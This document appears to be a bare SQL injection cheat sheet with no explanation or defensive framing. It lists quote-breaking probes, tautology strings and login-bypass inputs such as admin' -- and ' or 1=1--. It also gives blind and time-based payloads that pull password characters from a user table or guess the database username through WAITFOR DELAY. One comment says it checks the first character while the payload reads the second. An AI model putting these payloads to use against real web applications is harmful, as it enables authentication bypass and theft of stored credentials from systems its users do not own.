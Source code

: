 # SQLi_Example_Basic

########### Examples basic for SQL injection ############################

'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x 
============== blind SQLi ==============
id=1+AND+555=if(ord(mid ((select+pass+from+user+limit+0,1),1,1))=97,555,777)
check for username length:
id=1; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
id=1; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
id=1; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'--
check if 1st character in username containt A, B or C
id=1; IF (ASCII(lower(substring((USER), 2,1)))=97) WAITFOR DELAY '00:00:10'--
id=1; IF (ASCII(lower(substring((USER), 2,1)))=98) WAITFOR DELAY '00:00:10'--
id=1; IF (ASCII(lower(substring((USER), 2,1)))=99) WAITFOR DELAY '00:00:10'--

==========Bypass Login by SQLi ==============
admin' --
admin' #
admin' /*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--

========blind SQL injection check====================
MS SQL: waitfor delay '0:0:10'--
MySQL: BENCHMARK (howmanytimes, do this) 
